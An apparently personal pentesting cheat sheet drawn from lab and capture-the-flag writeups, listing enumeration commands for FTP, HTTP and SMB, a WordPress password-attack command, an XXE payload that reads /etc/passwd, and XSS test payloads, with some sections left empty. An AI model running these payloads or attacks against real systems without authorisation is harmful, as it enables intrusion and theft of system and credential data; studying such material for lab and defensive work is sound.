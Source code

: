 ```yaml
---
title: "Pentesting CheatSheet"
author: "Me"
date: "November 03, 2021"
output: html_document
---
```


# Pentesting CheatSheet
{:.no_toc}

This "CheatSheet" aims to provide a global vision of the various tools and techniques used in the writeups, so that I can easily reuse them (there are links to machines).

Here's the content so far:

1. TOC
{:toc}
{:style="color:black; font-size: 150%;"}

# 21 - FTP

- Check if anonymous FTP is allowed (user *anonymous*, blank password)
- Known vulnerable versions: ProFTPD 1.3.3c, vsFTPd 2.3.4

# 80 - HTTP

## Directories and files enumeration

- Directories and files enumeration with **dirb** (-r for non recursive):

````
sudo dirb http://targetIP -r
``````

- Directories and files enumeration with **gobuster**:

````
sudo gobuster dir -u http://targetIP/ -w /usr/share/wordlists/...wordlist
sudo gobuster dir -u http://targetIP/ -w /usr/share/wordlists/...wordlist -x php # looks for php files
``````
Example: BountyHunter

- Directories and files enumeration with **wpscan** (for Wordpress):

````
sudo wpscan --url targetIP # basic scan
sudo wpscan --url targetIP -e u # enumerate users
sudo wpscan --url targetIP -passwords file/path/passwords.txt # password attack
`````
Example: Basic Pentesting: 1

- If the CMS is Wordpress: check **wp_admin_shell_upload**. Example: Basic Pentesting: 1


## XXE Injection

Does the application parses XML? If yes, it might be vulnerable to XXE injection. POC:

````
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
`````

Example: BountyHunter


## SQL Injection

## XXS (cross-site scripting)

- Stored XXS: query stored in a database. Detection: input something like <script>alert('test')</script> in a field, submit it and refresh the page. If the browser interprets it, it should open a JavaScript pop-up alert.
- Reflected XXS: same principle, but the script isn't stored in a database. Instead, it is passed through the URL. Example: if the site/application has a research field, it does an http GET request with an URL parameter (*https://www.insecure.com/search?q=keyboard*). Detection: inject something like https://www.insecure.com/search?q=<script>alert</script>. We can then send this link to someone.

## CSRF (cross-site request forgery)

Principle: do http requests as the victim.

## Login Bruteforcing

# 139, 445 - SMB

- SMB (Server Message Block, protocol to share resources on Windows local networks) enumeration and null sessions:

````
sudo nmblookup -A targetIP
sudo nbtscan targetIP
sudo smbclient -L targetIP
sudo smbmap -H targetIP
````


